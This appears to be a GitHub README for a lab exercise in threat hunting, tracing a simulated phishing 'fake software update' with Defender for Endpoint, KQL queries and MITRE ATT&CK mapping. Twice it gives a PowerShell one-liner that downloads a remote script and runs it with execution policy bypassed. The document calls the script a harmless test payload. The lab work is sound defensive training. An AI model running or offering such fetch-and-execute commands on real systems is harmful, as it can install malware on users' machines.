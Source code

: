 
# 🚨 **Incident Response: Phishing via Fake Software Update** 🚨  

<img width="700*500" src="https://github.com/user-attachments/assets/e9d2fd77-dc9f-4faa-a735-925e1d3a25f0" alt="Tor Logo with the onion and a crosshair on it"/>

---

### 🛡️ **Scenario Overview**  
- **Organization**: 🏢 Medium-sized FinTech company.  
- **Threat**: Employees report unusual system behavior after clicking on a suspicious software update notification.  
- **Objective**: Identify the phishing campaign’s scope, mitigate its impact, and strengthen defenses.  

---

### 🌐 **PowerShell Payload (POC)**  

 
📥 **The PowerShell Payload**
Run the PowerShell command below on your VM **after onboarding it to MDE**:
```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/TrevinoParker7/Powershell-test-payload-harmless/refs/heads/main/phishingFakeSoftwareUpdate.ps1' -OutFile 'C:\programdata\phishingFakeSoftwareUpdate.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\phishingFakeSoftwareUpdate.ps1
```

https://github.com/TrevinoParker7/Powershell-test-payload-harmless/blob/main/phishingFakeSoftwareUpdate.ps1

---

![Screenshot 2025-01-26 181108](https://github.com/user-attachments/assets/7b9ccc9f-e290-4125-8990-2e2de03d2d45)

![Screenshot 2025-01-26 130233](https://github.com/user-attachments/assets/e154a3c3-0a2f-4748-91af-0cc28bfa73a0)

---
### 💻 **Platforms and Tools Leveraged**  
- **SIEM**: Microsoft Sentinel  
- **Endpoint Protection**: Microsoft Defender for Endpoint  
- **Query Language**: Kusto Query Language (KQL)  
- **Infrastructure**: Windows 10 VMs on Microsoft Azure  

---

## 🕵️‍♂️ **High-Level IoC Discovery Plan**  
**Focus Areas**:  
1️⃣ Check **DeviceFileEvents** for suspicious file activities.  
2️⃣ Check **DeviceProcessEvents** for signs of malicious execution.  
3️⃣ Check **DeviceNetworkEvents** for outgoing connections, especially over known malicious ports.  

---

### 🔍 **KQL Queries**  

**Query: Recent File Events**  
```kql
DeviceFileEvents
| top 50 by Timestamp desc
```

**Query: Network Events**  
```kql
DeviceNetworkEvents
| top 50 by Timestamp desc
```

**Query: Process Events**  
```kql
DeviceProcessEvents
| top 50 by Timestamp desc
```

---

## 📊 **Threat Timeline**  

### 1️⃣ **File Download (Initial Access)**  
- **TTP**: [T1193](https://attack.mitre.org/techniques/T1193) - Spear Phishing Link  
- **Event**: Employees receive a phishing mimicking IT with a link to a "critical software update."  
- **Impact**: The link leads to downloading a PowerShell payload.  

**Relevant Query**:  
```kql
DeviceFileEvents
| where DeviceName == "tphish"
| where FileName endswith "ps1"
| order by Timestamp desc 
```
![Screenshot 2025-01-26 131545](https://github.com/user-attachments/assets/0f60aaaa-fc7c-456e-8680-5a2a3d7ed5db)
---

### 2️⃣ **Process Execution**  
- **TTP**: [T1059.001](https://attack.mitre.org/techniques/T1059/001) - PowerShell Execution  
- **Event**: Malicious PowerShell script execution on victim devices.  
- **Query Used**:  
```kql
let VMName = "tphish";
let specificTime = datetime(2025-01-26T19:01:29.0367754Z);
DeviceProcessEvents
| where Timestamp between ((specificTime - 2m) .. (specificTime + 2m))
| where DeviceName == VMName
| order by Timestamp desc
```

![Screenshot 2025-01-26 133010](https://github.com/user-attachments/assets/31b64c99-ad4f-48c1-b89f-ff5a34d5962f)

---

```kql
DeviceProcessEvents
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "phishingFakeSoftwareUpdate.ps1" or ProcessCommandLine contains "Add-Type -AssemblyName PresentationFramework"
| extend Timestamp = Timestamp, InitiatingProcessAccountName = InitiatingProcessAccountName
| project Timestamp, DeviceName, FileName, ProcessCommandLine, InitiatingProcessAccountName, InitiatingProcessCommandLine
| order by Timestamp desc
```
![Screenshot 2025-01-26 134312](https://github.com/user-attachments/assets/31820b28-e89e-4e42-9ea5-24060e2a7508)

---


### 3️⃣ **Network Connection to C2 Server**  
- **TTP**: [T1071.001](https://attack.mitre.org/techniques/T1071/001) - Web Protocols  
- **Event**: Communication with a C2 server over the internet, potentially exfiltrating credentials.  
- **Query Used**:  
```kql
union DeviceNetworkEvents, DeviceProcessEvents
| where Timestamp > ago(6h)
| where RemoteUrl contains "raw.githubusercontent.com" or InitiatingProcessCommandLine has "phishingFakeSoftwareUpdate.ps1"
| project Timestamp, DeviceName, RemoteUrl, RemoteIP, InitiatingProcessCommandLine, FileName, FolderPath, ActionType
| order by Timestamp desc
```
![Screenshot 2025-01-26 140306](https://github.com/user-attachments/assets/f41a1d4e-246e-4ca1-9053-5a0630777595)

---

### 4️⃣ **Lateral Movement & Credential Dumping**  
- **TTPs**:  
  - [T1210](https://attack.mitre.org/techniques/T1210) - Exploitation of Remote Services  

---

## 🛠️ **Mitigation Steps**  

### 🔒 Containment  
1️⃣ Block the malicious domain on the firewall and DNS servers.  
2️⃣ Disable compromised user accounts and enforce password resets.  
3️⃣ Isolate infected machines from the network.  

### 🧹 Eradication  
1️⃣ Deploy updated antivirus signatures to detect and remove the malware.  
2️⃣ Conduct system-wide scans using EDR tools.  

### 🔄 Recovery  
1️⃣ Restore affected systems from backups.  
2️⃣ Re-enable user access after ensuring systems are clean.  

---

## 🧠 **Post-Incident Improvements**  

### 🚀 Proactive Monitoring  
- Enhanced SIEM rules for detecting phishing emails.  
- Integration of threat intelligence feeds to block new malicious domains.
- Create a Rule to detect this. 

### 📚 User Awareness  
- Mandatory phishing training with simulation tests.  
- Quick-reference phishing awareness guide shared via email.  

---

### 📈 **Mapped TTPs to MITRE ATT&CK Framework**  

| Tactic             | Technique                             | ID        | Example                             |  
|---------------------|---------------------------------------|-----------|-------------------------------------|  
| **Initial Access**  | Spear Phishing Link                  | T1193     | Phishing email with fake update link |  
| **Execution**       | PowerShell Execution                 | T1059.001 | Malicious PowerShell script executed |  
| **Command & Control** | Web Protocols                     | T1071.001 | C2 communication to exfiltrate data |  
| **Credential Access** | Credentials in Files              | T1555.003 | Stolen credentials from payload use |  
| **Lateral Movement**  | Exploitation of Remote Services    | T1210     | Attempts to pivot to other devices  |  

---

### 📥**PowerShell Payload (POC)**  

Run the PowerShell command below on your VM **after onboarding it to MDE**:
```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/shanerwilson/code-nine/refs/heads/main/Cybersecurity%20test%20scripts/phishingFakeSoftwareUpdate.ps1' -OutFile 'C:\ProgramData\phishingFakeSoftwareUpdate.ps1'; powershell.exe -ExecutionPolicy Bypass -File 'C:\ProgramData\phishingFakeSoftwareUpdate.ps1'

```

https://github.com/TrevinoParker7/Powershell-test-payload-harmless/blob/main/phishingFakeSoftwareUpdate.ps1

---
